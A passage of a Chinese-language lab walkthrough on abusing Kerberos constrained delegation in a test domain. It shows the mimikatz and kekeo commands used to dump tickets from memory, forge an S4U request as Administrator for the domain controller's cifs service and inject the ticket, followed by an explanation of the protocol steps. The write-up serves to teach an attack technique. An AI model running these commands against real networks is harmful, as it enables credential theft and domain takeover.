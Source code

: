 从内存中导出所有票据

sekurlsa::tickets /export

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091115.png)

然后通过win7的TGT伪造s4u请求以administrator身份请求访问WIN-KONG cifs的ST

tgs::s4u /tgt:TGT_win7@HIRO.COM_krbtgt~hiro.com@HIRO.COM.kirbi
/user:Administrator@hiro.com /service:cifs/WIN-KONG.hiro.com

![]()![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091116.png)

用mimikatz将票据导入内存中

kerberos::ptt TGS_Administrator@hiro.com@HIRO.COM_cifs~WIN-
KONG.hiro.com@HIRO.COM.kirbi

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091117.png)

访问域控：

![]()

* * *

###  **约束委派请求过程：**

`tgt::ask /user:win7 /domain:hiro.com /password:123456QWE.`

###  **AS-REQ**

以用户win7请求TGT

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091118.png)

###  **AS-REP**

AS返回用户win7的TGT，也就是得到了TGT_win7@HIRO.COM_krbtgt~hiro.com@HIRO.COM.kirbi

![]()

`tgs::s4u /tgt:TGT_win7@HIRO.COM_krbtgt~hiro.com@HIRO.COM.kirbi
/user:Administrator@hiro.com /service:cifs/WIN-KONG.hiro.com`

###  **TGS-REQ**

win7用户用上一步得到的TGT，用上S4U2Self协议，以administrator的名义向TGS申请一张访问自身服务并且可转发的ST1票据。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091119.png)

###  **TGS-REP**

TGS返回administrator的ST1票据给win7
